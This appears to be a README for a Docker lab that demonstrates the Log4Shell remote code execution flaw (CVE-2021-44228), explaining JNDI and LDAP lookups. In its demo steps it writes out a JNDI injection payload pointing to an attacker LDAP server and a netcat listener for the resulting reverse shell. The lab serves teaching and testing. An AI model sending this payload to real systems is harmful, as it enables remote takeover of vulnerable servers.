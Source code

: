 # An LDAP RCE exploit for CVE-2021-44228 Log4Shell

## Disclaimer

This repository is forked from: <https://github.com/cyberxml/log4j-poc>

The remote exploit app in this demo is based on that found at <https://github.com/kozmer/log4j-shell-poc>

The RMI exploit against the Tomcat 9 / Java 11 server is described here: <https://www.veracode.com/blog/research/exploiting-jndi-injections-java> (Jan 3, 2019) by Michael Stepankin

## Fundamentals

This repository consist of of two different docker-containers to demonstrate the log4j vulnerability.

The following explains the technologies used in this demonstration and the log4j vulnerability.

**log4j**: log4j is a popular logging library for java

**jndi**: _java naming and directory Interface_ is a Java API that allows JAva software clients to look up data. This data can ba supplied by a server, database or file.

**ldap**: _Lightweight Directory Access Protocol_ is a network protocol used to access distributed data. It is e.g. implemented as a service provider in the previously described jndi.

**expression evaluation**: This technology is used to e.g. dynamically write changing values in logging files. For example if you want to log the current user, one can write the following code:

```
 logger.debug("User {} is the current user.", currentUser);
```

In this case, java tries to evaluate the value of the variable currentUser and replaces the placeholder bracket with the result.

---

## How Remote Code Execution can be achieved

By introducing th jndi lookup feature in log4j, a vulnerability was created.
A possible exploit could look like the following steps:

1. The attacker sends a jndi lookup command to the application. This command contains a url where the application should fetch data.
2. The application wants to log the jndi command and therefore tries to fetch data from the url handed over.
3. The application connects to a prepared LDAP server which receives the fetch request and answers with malicious code.
4. This code is then executed by the attacked server.

---

## Demonstration

To demonstrate the log4j vulnerability two separate docker containers are created. The first one (cve-web) contains a Tomcat 8 server which can be accessed by port 8080. This server has a vulnerable app (log4shell) deployed on it.
The second container (cve-poc) is used to attack the vulnerable server. To communicate with the vulnerable server, it hosts a ldap server.

### Prerequisites

This code requires Docker and Docker Compose

### Installation

- edit docker-compose.yml file:
  - change value of #LISTENER_ADDR to the local IP of your docker host
- build docker containers:

```
docker-compose build
```

### Run Web App Attack Demo

- Setup your netcat listener in the first terminal

```
    nc -lv 10.10.10.31 9001
```

- Start the docker containers in a second terminal

```
   docker-compose up
```

- Navigate to <http://10.10.10.31:8080/log4shell>
- Login as "regular" user:
  - Enter the username: `admin`
  - Enter the password: `password`
  - Press the "login" button
- try out log4j vulnerability
  - Return to login at <http://10.10.10.31:8080/log4shell>
  - Enter the username `${jndi:ldap://172.16.238.11:1389/a}`
  - Select the "login" button
  - Check for connection on your `nc` listener

